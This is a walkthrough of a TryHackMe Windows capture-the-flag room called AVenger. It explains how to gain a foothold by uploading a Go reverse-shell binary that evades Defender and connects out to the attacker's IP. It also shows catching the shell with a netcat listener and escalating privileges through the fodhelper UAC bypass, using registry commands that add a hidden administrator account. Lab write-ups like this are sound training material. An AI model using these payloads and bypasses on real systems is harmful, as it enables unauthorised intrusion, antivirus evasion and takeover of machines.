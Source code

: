 # AVenger

https://tryhackme.com/room/avenger, difficulty MEDIUM

A fun room thanks to its initial foothold. Always good to see some Windows machines to hack :)

1. Initial scans will reveal the normal raft of ports that a windows server will expose by default. Of note is port **80**, showing the site is hosting a webserver.

2. On port **80** is a file listing, revealing XAMPP has been used as the webserver. There are a few pieces of information available, including a PHPInfo page that reveals the server OS as **Windows Server 2019**

3. Browsing to `/app` will attempt to redirect to `avenger.tryhackme/app`, so a host entry needs to be created so that this resolves.

4. On the site once it has resolved is something like a HR page for a superhero team. Of note here is a submission form, that allows you to select a file. Once submitting something a popup appears saying the HR team will review submissions very closely.

All this provides enough information to identify the foothold:

- the room is called AVenger, e.g. AV or antivirus is the challenge
- its server 2019, and the room notes indicate its 'fully patched' with defender (default AV for windows) enabled
- upload form that accepts files, and an indication that the forms contents and the files will be 'reviewed'

So an informed guess would be an AV bypass challenge, with you submitting something like a rev shell, hoping AV doesn't remove it, then catching it when some process runs it. My go to for bypassing defender is using a golang binary, as even an internet connected and patched windows machine will normally not pickup a go binary unless you are using one that has been in use by others enough for it to appear on the radar of Microsoft.

5. The go used is created via `echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.10.217.43:5555");cmd:=exec.Command("cmd");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > t.go`. This is broadly identical to the payload suggested by something like https://www.revshells.com/ for go. Note that the shell specified is 'cmd' and the reverse ip must be set correctly to the attacker machine.

6. It can be compiled on linux with `GOOS=windows GOARCH=amd64 go build t.go` however this may not work, since it will likely build for modern OS's like Windows 10, 11 and Server 2019 is getting a bit old. If you have a windows machine handy, its just `go build t.go` but you might need to ensure the encoding of `t.go` is UTF-8 (Powershell sets something weird that Golang then complains about NUL errors for).

7. Upload the resulting t.exe to the AVenger's app site. Ensure that you have a rev shell catcher on your attack box, e.g. `nc -nvlp 5555`. After a moment or two you will get a revshell as 'hugo'.

8. The user flag is under `c:\users\hugo\desktop\user.txt`.

To privesc to root is fairly simple, as hugo is a member of the administrators group (`whoami /groups`). However, UAC (user access control) is enabled, a control that means hugo needs to interact with a prompt to assume higher privileges. This explains why, despite being an admin, `whoami /priv` is very empty. A second indicator is something like `medium integrity` mandatory access control under `/groups`, indicating restricted rights until the UAC prompt is accepted. Despite not being a security control per se, being largely there to stop malicious binaries doing things with admin privileges (as we are trying to do), it is effective because we do not have Hugo's password and so cannot just remote in to the machine to interact with the prompt.

The solution, which is common and still works on Server 2019, is the [fodhelper](https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/) trick. This is a process that will run as a high integrity process even without accepting the UAC prompt, and will run whatever is placed in a specific registry value.

9. Switch to a powershell session if not already in one (command line will be prefixed with 'PS') by running `ps`
10. Come up with a command payload. We are going to create a new admin user with a known password, via `cmd.exe /c net user test123 Password123! /add && net localgroup administrators test123 /add`
11. Run the following commands one by one to get fodhelper to run this as admin (note our command payload in the third line):

    ```powershell
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd.exe /c net user test123 Password123! /add && net localgroup administrators test123 /add" -Force
    Start-Process "C:\Windows\System32\fodhelper.exe"
    ```

12. Using remmina on linux or whatever remote desktop tool (e.g. freerdp), or mstsc/Remote Desktop from a windows attack box, connect to the machine with the new test123:Password123! credentials.

You should be able to access `c:\users\administrator\desktop\root.txt` to get the final flag.
